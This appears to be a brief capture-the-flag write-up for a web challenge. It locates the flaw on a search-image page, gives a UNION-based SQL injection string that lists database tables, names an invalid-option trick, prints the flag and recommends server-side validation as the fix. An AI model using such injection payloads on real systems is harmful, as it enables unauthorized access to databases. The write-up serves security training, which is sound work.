 # Where: <br>
    /?page=searchimg
# How:
-By entering
> 1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()
-Change the value of 1 of the options to an invalid value.
Or
-Add an invalid option.
-Select the invalid value
-Receive the flag
# Flag:
03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA
# Fix:
Store options server side/on backend.All user input should be sanitised and validated (backend).
